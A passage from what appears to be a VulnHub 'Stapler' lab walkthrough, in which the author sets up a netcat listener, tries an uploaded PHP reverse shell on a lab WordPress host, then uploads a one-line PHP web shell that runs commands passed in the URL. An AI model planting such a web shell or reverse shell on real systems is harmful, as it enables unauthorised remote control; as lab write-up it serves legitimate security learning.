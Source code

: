 ``` bash
nc -nvlp 1337
```

and then we visit: https://192.168.56.104:12380/blogblog/wp-content/uploads/php-reverse-shell.php

And nothing! Just a spining web loading page.
If we wait long enough we'll see that we have code execution as the following error gets returned:

``` error
WARNING: Failed to daemonise. This is quite common and not fatal. Connection timed out (110) 
```

At this stage there are a few possibilities to why this failed, my first thoughts are either the box has firewall egress rules in place or I've made an error in my webshell code edits. 

First lets change our shell to a web shell, this way we can perform som active recon as well as try code execution out on the victim.

Open an editor and I put the following code into system-webshell.php:

``` php
<?php echo system($_GET["cmd"].' 2>&1'); ?>

```

I upload as before using John's credentials


![system-webshell.png](/assets/vulnhub_stuff/stapler/system-webshell.png)

and visit:

https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php


It looks like nothing has happened, but when I call the ls command on the url:

https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=ls

I get:

![web-shell-proof.png](/assets/vulnhub_stuff/stapler/web-shell-proof.png)
